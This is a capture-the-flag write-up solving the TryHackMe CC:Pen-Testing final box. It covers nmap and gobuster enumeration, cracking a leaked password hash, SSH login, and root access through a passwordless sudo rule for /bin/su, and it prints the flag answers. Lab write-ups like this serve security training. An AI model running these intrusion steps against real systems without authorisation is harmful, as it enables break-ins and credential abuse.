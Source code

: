 ## Description
Solve the final exam of the CC:Pen-Testing box in TryHackMe.  
The goal is to exploit the target machine and get the content of user.txt and root.txt.

## Solution
ip of the target host: 10.10.193.79

Reconnaissance: scan the target machine to enumerate ports and services.
```shell
nmap -sV 10.10.193.79
```
It gives:
```shell
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Meanwhile run gobuster to find hidden directories.
```shell
gobuster dir -u http://10.10.193.79/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 64
```
We found the hidden diretory /secret. The url http://10.10.193.79/secret/ yield a blank page.  
We can bruteforce the directory /secret to find hidden files:
```shell
gobuster dir -u http://10.10.193.79/secret/ -w /usr/share/dirbus ter/wordlists/directory-list-2.3-medium.txt -t 64 -x txt,php,html,css,js
```
We managed to find the file secret.txt, containing a username and a hash:  
nyan:046385855FC9580393853D8E81F240B66FE9A7B8

Now we can try to break the hash to find the password of nyan. Hopefully is the same password used to login through ssh.  
In order to break the hash we can use the CrackStation (https://crackstation.net/).  
Decrypting the hash we get nyan.

We can now use the retrieved credentials to try to get access to the machine using ssh:
```shell
ssh nyan@10.10.193.79
```
It worked !

```shell
nyan@ubuntu:~$ ls
user.txt
nyan@ubuntu:~$ cat user.txt 
supernootnoot
```
The content of user.txt is supernootnoot.

Final step is to find the file root.txt. The name of the file suggests that the flag is only available under root.  
We download LinEnum, useful tool which scans the system to find ways to escalate the privileges. In the scan report, we see the following:
```shell
[+] We can sudo without supplying a password!                                                                     
Matching Defaults entries for nyan on ubuntu:                                                                     
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/
bin                                                                                                               
                                                                                                                  
User nyan may run the following commands on ubuntu:                                                               
    (root) NOPASSWD: /bin/su
```

Therefore we can become root using: 
```shell
sudo /bin/su
``` 

In the home directory of root we can find the root.txt file.
```shell
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt 
congratulations!!!!
```

The content of root.txt is congratulations!!!




